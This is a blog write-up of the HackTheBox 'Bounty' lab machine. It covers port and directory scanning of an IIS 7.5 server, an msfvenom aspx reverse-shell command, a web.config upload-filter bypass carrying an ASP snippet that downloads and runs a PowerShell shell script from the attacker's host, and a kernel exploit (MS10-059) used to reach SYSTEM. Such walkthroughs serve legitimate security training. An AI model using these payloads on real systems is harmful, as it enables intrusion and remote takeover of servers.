 ```yaml
---
title: "HackTheBox - Bounty"
author: Nasrallah
description: ""
date: 2023-05-23 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, upload, aspx, kernel]
img_path: /assets/img/hackthebox/machines/bounty
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Bounty](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.93
Host is up (0.10s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: Bounty
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We only found port 80 open and it's Microsoft IIS http 7.5 web server.

### Web

Let's navigate to the web page.

![](1.png)

Nothing interesting.

#### Feroxbuster

Let's run a directory scan and add the extension `aspx` since this is `IIS`.

```terminal
$ feroxbuster -w /usr/share/wordlists/dirb/common.txt -x aspx -u http://10.10.10.93/ -n                                                              1 ⨯

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.7.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.10.93/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirb/common.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [aspx]
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET       32l       53w      630c http://10.10.10.93/
301      GET        2l       10w      156c http://10.10.10.93/aspnet_client => http://10.10.10.93/aspnet_client/
200      GET       22l       58w      941c http://10.10.10.93/transfer.aspx
301      GET        2l       10w      156c http://10.10.10.93/uploadedfiles => http://10.10.10.93/uploadedfiles/
[####################] - 50s     9228/9228    0s      found:4       errors:0      
[####################] - 50s     9228/9228    184/s   http://10.10.10.93/ 
```

We found an upload directory and a page at `transfer.aspx`, let's check it out.

![](2.png)

It's an upload page. The next thing to do it upload an aspx reverse shell.

#### msfvenom

Let's generate the payload using `msfvenom`.

```terminal
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.17.90 LPORT=9999 -f aspx -o revshell.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of aspx file: 3427 bytes
Saved as: revshell.aspx                
```

Now let's upload it.

![](3.png)

Invalid file, there must be a filter.

## **Foothold**

After some research I found that we can upload a web.config file that contains the aspx script, check [here](https://web.archive.org/web/20150328012634/https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/) for more.

The `web.config` file looks like the following:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
```

Now we add to it the following code that will download the `Invoke-PowershellTcp.ps1`

```powershell
<%
Set obj = CreateObject("WScript.shell")
obj.Exec("cmd /c powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.17.90/Invoke-PowershellTcp.ps1')")
%>
```

We setup the webserver and a listener then upload the file and request it at `http://10.10.10.92/uploadedfiles/web.config`


```terminal
 $ nc -lvnp 9001 
listening on [any] 9001 ...
connect to [10.10.17.90] from (UNKNOWN) [10.10.10.93] 49158
Windows PowerShell running as user BOUNTY$ on BOUNTY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami
bounty\merlin
```

We got a shell as `merlin`.

## **Privilege Escalation**

Let's check our privileges.

```terminal
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\windows\system32\inetsrv> 
```

The `SeImpersonatePrivilege` is enabled, but i tried multiple exploit but no luck

Next we run `windows-exploit-suggester`

![](4.png)

It gave us multiple exploits to try, the one I had luck with before is [MS10-059](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

![](5.png)

Great! We got SYSTEM.


## **Resources**

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-.config-files](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/iis-internet-information-services#execute-.config-files)

[https://web.archive.org/web/20150328012634/https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/](https://web.archive.org/web/20150328012634/https://soroush.secproject.com/blog/2014/07/upload-a-web-config-file-for-fun-profit/)

[https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS10-059/MS10-059.exe)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).